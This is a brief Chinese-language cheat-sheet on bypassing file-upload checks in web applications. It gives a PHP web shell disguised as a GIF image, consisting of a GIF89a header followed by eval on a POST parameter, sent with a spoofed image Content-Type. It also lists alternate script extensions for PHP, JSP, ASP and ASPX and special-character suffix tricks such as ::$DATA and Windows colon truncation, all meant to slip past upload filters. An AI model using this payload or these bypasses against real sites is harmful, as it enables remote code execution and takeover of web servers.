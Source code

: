 ## 文件内容检测绕过
```
文件头：Content-Type: image/jpeg
文件内容：
 GIF89a?
 <?php
 Eval($_POST["pass"]);
(有可能会检测文件内容，例如不允许有危险函数eval)
```
## 文件后缀检测绕过
- 后缀大小写：```
PHP文件: Php、PHP、pht、php5、phtml、shtml
JSP文件: jspx、jspf
ASP文件: asa、cer、cdx
ASPX文件: ascx、ashx、asac```
- 后缀添加特殊字符：`:、空格、::$DATA、.,$,/.,等字符`  
`:` 只针对windows系统，会将后面的截断